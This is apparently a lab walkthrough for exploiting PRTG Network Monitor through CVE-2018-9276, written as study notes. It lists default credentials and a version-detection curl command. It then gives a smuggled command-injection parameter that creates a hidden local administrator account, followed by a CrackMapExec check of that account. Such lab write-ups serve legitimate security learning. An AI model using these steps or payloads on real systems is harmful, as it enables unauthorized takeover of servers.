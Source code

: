 ### 🔐 Default Credentials

* **Default login** often works: `prtgadmin:prtgadmin`
* In our case: `prtgadmin:Password123`

### 🖥 Version Detection

```bash
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" | grep version
```

* Detected: `PRTG Network Monitor 17.3.33.2830`

## ⚠️ Vulnerability: CVE-2018-9276

* **Authenticated Command Injection** in PRTG versions < 18.2.39.
* Exploited via the **"Execute Program"** notification feature.
* Payloads passed to PowerShell scripts without sanitization.

## 🧪 Exploiting Command Injection

### 🔧 Steps to Exploit

1. Log in to the web console.
2. Navigate to:

   ```
   Setup > Account Settings > Notifications
   ```
3. Click **Add new notification**.
4. Fill out:

   * Name: `pwn`
   * Enable **Execute Program**
   * Program File: `Demo exe notification - outfile.ps1`
   * **Parameter**:

     ```bash
     test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
     ```
5. Save and return to Notifications list.
6. Click **Test** to run the notification.

> ✅ Creates a new local admin user silently.

## 🧾 Post-Exploitation: Verify Admin Access

### ✅ Confirm Local Admin with CrackMapExec

```bash
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG!
```
